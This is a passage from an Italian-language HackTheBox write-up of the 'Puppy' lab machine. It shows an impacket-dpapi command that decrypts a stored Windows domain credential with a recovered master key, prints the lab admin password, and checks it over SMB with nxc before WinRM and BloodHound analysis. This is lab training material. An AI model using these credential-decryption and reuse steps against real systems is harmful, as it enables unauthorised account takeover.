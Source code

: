 Si effettua l'**unlock** del file con la master key.

```bash

# Unlock the data protected
$ impacket-dpapi credential -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84 -file C8D69EBE9A43E9DEBF6B5FBD48B521B9 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!

```

Si ottengono le credenziali di **step.cooper_adm**.

```bash

$ nxc smb PUPPY.HTB -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!'                                      
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False) 
SMB         10.x.x.x  445    DC               [+] PUPPY.HTB\steph.cooper_adm:FivethChipOnItsWay2025! (Pwn3d!)

```

- **steph.cooper_adm:FivethChipOnItsWay2025!**

## Shell as Steph Adm

Si accede a **WinRM** come **steph.cooper_adm** ma non si trova nulla di significativo a primo impatto.

Si passa all'analisi con **Bloodhound**.

![BHCE-3](./img/bhce-3.png)
